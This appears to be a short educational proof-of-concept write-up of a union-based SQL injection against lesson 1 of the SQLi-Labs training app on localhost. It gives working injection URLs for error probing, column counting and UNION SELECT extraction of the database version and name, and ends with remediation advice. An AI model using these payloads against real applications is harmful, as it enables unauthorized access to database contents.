

# Proof of Concept: SQL Injection in SQLi-Labs (Lesson 1)

## Overview
This report documents a successful **Union-Based SQL Injection** exploit against the first lesson of the SQLi-Labs vulnerable application. The vulnerability allows an unauthenticated attacker to retrieve sensitive database information.

## Vulnerability Details
- **Target:** SQLi-Labs (Lesson 1: GET - Error based - Single quotes - String)
- **URL:** `http://localhost:8080/Less-1/`
- **Vulnerable Parameter:** `id` (GET)
- **Database:** MySQL

## Step-by-Step Exploitation

### 1. Vulnerability Identification
The first step was to identify the vulnerability by injecting a single quote (`'`) into the `id` parameter, which caused a SQL syntax error:
http://localhost:8080/Less-1/?id=1'

**Result:** An error message was returned, confirming improper input sanitization:
`You have an error in your SQL syntax... near ''1'' LIMIT 0,1' at line 1`

### 2. Determining Column Count
Using the `ORDER BY` clause, the number of columns in the original query was determined to be **3**:

http://localhost:8080/Less-1/?id=1' ORDER BY 3 -- -

### 3. Extracting Data via UNION SELECT
A `UNION SELECT` attack was crafted to retrieve the database version and name:
http://localhost:8080/Less-1/?id=-1' UNION SELECT 1,@@version,database() -- -

### 4. Results
The application returned the following sensitive information:
- **Database Version:** `5.5.44-0ubuntu0.14.04.1`
- **Current Database:** `security`

## Impact
An attacker can use this vulnerability to:
- Extract any data from the database (e.g., usernames, passwords, other secrets).
- potentially escalate the attack to gain full control of the underlying server.

## Remediation
- Use **Prepared Statements (Parameterized Queries)**.
- Implement proper input validation and escaping.
- Apply the principle of least privilege to the database user.

---

**Exploit Author:** Ranks123  
**Date:** $(date 2025-9-12)
